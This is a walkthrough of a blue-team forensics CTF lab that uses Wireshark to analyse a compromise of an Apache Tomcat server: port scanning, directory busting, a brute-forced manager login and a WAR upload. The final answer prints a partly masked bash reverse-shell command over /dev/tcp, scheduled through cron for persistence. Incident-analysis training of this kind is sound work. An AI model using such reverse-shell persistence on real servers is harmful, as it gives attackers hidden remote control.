 ```yaml
---
layout: page
title: Tomcat Takeover
categories: CTFs
permalink: /cyberdefenders/tomcat-takeover/
---
```


## Details

https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/

Instructions:

Uncompress the lab (pass: cyberdefenders.org)
Scenario:

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

Tools:
- Wireshark
- NetworkMiner

## Solution

### Question 1
**Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?**

The question is asking us to find the IP address that is performing a port scannin operation on our network. To find this we can go ahead and go to Statistics > Endpoints > TCP to get a better idea as to which IP address is making the most requests to different port numbers.

![Endpoint](https://github.com/user-attachments/assets/cf53e731-e8e8-40a3-a6e0-e9d21122f006)


Looking at the results we can see that the IP 1*.0.0.*** has made requests to various port numbers most of them being above the common ports range which warrants suspicious behaviour.

#### Answer
1*.0.0.***

### Question 2
**Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?**

For this we can simply go to a site like abuseipdp.com and check IP information.

![AbuseIPDP](https://github.com/user-attachments/assets/62852fc9-eb22-469a-9dcd-8b852f91fd1c)


#### Answer
G********

### Question 3
**From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?**

For this we can start of by filtering for HTTP packets, since the question is asking to find the port relating to a web server which communicates in HTTP.

![http](https://github.com/user-attachments/assets/d5d8dfe8-ce82-47fe-805d-32adb8b0aefc)

This gives us a bunch of packets. Now let's try narrowing it down even further. We can go to Statistics > Conversations to get a clear look into what ports are involved in the HTTP packets.


![PORT](https://github.com/user-attachments/assets/6c987d6d-4a1e-42e6-949c-ee5a02e2e3e5)


Looking at the results it seems there is only one port involved in HTTP which we can safely conclude that this is the correct answer. Should there have been more ports than one which is unlikely we could have gone on to filter for the ports that involve an admin page.

#### Answer
8***

### Question 4
**Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?**

Looking at the HTTP packets we can see a bunch of requests that are made in a short period of time indicating an automation. This is typical behaviour for directory busting software.

![dirbust_sus](https://github.com/user-attachments/assets/26c67847-8f04-42b5-9170-d817032451c1)


Looking at one of these packets reveals to us the tool used by the attacker

![tool](https://github.com/user-attachments/assets/bfeedc2d-44df-471d-9992-f36ceb374f83)

#### Answer
go******

### Question 5
**Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?**

To find this we can use the filter 'http.request or http.response.code != 404' this filter will filter for HTTP Requests and Responses for the pages that exist within the server. This will allow us to more efficiently sift through the data.

After sifting through the data we stumble across the admin panel

![admin](https://github.com/user-attachments/assets/2be6ad5f-beab-4b45-b809-115f6c964b5b)

We can see a request for /m*****/h*** which provides a response of Unauthorized telling us that that page is only accessible to admins.

#### Answer
/m******

### Question 6
**Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?**

To find this we can look through all the requests to /manager/html until we find a response OK to that request.


![OK](https://github.com/user-attachments/assets/30243610-fff4-432f-b637-8aea2167e464)

We can see that after a series of unsuccessful attempts the attacker gets an OK response from the server indicating that the credentials worked. To look at what credentials they used we can check the Authorization header under the HTTP data in the Packet

![credentials](https://github.com/user-attachments/assets/3c94631a-aca0-48aa-9740-6c0fcf13deda)


#### Answer
a****:t*****

### Question 7
**Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?**

To find this we can filter for POST packets. This can be done using the filter 'http.request.method == POST'.

![POST](https://github.com/user-attachments/assets/903d536a-a692-4d24-80a1-ddd090d2e557)

We can see that there is only 1 POST packet, looking into the packet information we can see what file was uploaded.

![file](https://github.com/user-attachments/assets/bfd8e059-5089-41af-bd71-fbdca50f4c5e)


#### Answer
J*****.**r

### Question 8
**Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?**

To find this we can look for a request to the file that was uploaded, since the server needs to run the file for the commands to be executed, and then look at subsequent connections between the attacker and the server to find any commands run by the attacker

![search](https://github.com/user-attachments/assets/2144f96b-fb0c-43b1-ba90-0dd75e56f202)

We can see that the attacker sent a request to GET /JXQOZY/ indicating that the attacker tried to run the malicious file that we uncovered in the previous question. We can see a few packets later that the server sends an OK response indicating that the malicious file was opened. Looking at the next few packets we stumble upon a packet which has 'whoami' as part of it's data. whoami is a common command which is used by attackers to find out what account they are currently using. Following this TCP Stream we can uncover all the other commands run by the attacker.

![persistence](https://github.com/user-attachments/assets/f76ca117-79af-4068-96a6-d712599afc87)

We can see that there is a command for cron, which is a task scheduler for Unix like operating systems, which is commonly used for persistence by attacker.

#### Answer
/b**/b*** -* '**** -* >& /***/tcp/14.0.0.**0/**3 0>&1'
